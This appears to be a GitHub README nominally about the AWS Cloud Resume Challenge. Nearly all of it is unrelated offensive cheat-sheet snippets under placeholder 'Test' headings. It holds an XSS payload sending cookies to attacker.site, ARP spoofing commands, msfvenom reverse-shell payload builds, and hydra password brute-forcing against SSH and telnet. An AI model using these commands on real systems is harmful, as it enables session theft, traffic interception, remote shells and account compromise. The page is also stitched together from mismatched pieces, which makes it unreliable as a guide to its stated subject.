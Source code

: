 # mycloudresumechallenge

Set up a Resume in the Cloud w/ AWS Step by Step.

Challenge website: cloudresumechallenge.dev/docs/the-challenge/aws/

- [Test](https://cloudresumechallenge.dev/docs/the-challenge/aws/)

```
Test 2 AWS
<html></html>
```
`Test 3`

```
	<script\>
	var i \= new Image();
	i.src\="http://attacker.site/log.php?q="+document.cookie; 
	</script\>
```
  
```py
echo 1 > /proc/sys/net/ipv4/ip_forward # So once traffic reaches us, proceeds to the vicitm

arpspoof -i tap0 -t 10.10.10.2 -r 10.10.10.6
```

```bash
	msfvenom -p php/reverse_php lhost={Attacker IP} lport=443 -o revShell.php # Basic php reverse shell

	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf # Linux reverse shell
```
  
```r
	hydra -L usersList.txt -P passList.txt -t 10 10.10.10.2 ssh -s 22 
	
	hydra -L usersList -P passList telnet://10.10.10.2 -V # verbose so you see real-time when a password is found
```
  
  ---
  ## TEST 4
  
  ## TEST 5
